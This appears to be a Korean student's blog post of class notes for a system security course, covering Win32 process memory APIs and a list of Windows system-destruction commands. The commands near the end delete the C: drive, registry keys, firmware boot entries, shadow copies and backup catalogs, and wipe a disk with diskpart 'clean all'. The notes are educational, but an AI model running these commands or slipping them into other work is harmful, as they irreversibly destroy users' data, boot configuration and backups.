 ```yaml
---
layout: post
title: "시스템 보안 2주차"
categories:
  - School
tags:
  - windows
last_modified_at: 2025-09-10
---
```


월요일.. 착각 이슈로 수업 빼버림 <br>
하......<br><br>

프로세스가 우리 시스템 안에서 할 수 있는 악성 행위 

# Win32 API 

memoryapi.h 라이브러리에 존재한다. -> 원래의 목적은 다른 프로세스(debuggee) 내부를 살펴보기 위한 디버거 구현시 사용 
<br><br>
debugger가 debuggee에 작성하기 위해서는 `WriteProcessMemory()` 를 활용하는 등.. <br>
프로세스 간 R,W가 되기 위해서는 디버거-디버기 관계가 중요 <br>
<br>
nop : not operation -> 
<br>
EULA? -> 데이터 수집 및 사용 

1. 윈도우 시스템 파괴 
접근 권한이 있는 상태에서 시스템을 재빨리 파괴하는 
ex) reg delete, RD C:\ /S /Q 

패치 방법도 생각해보기 

-> 가상머신이 없다.. 윈도우를 가져와야 하는데 
일단 서치만 해보자

bcdedit /enum firmware
bcdedit /delete {identifier}

---

vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
wmic shadowcopy delete

list disk 
select disk 1 
clean all 

집 가서 되나 확인해보기 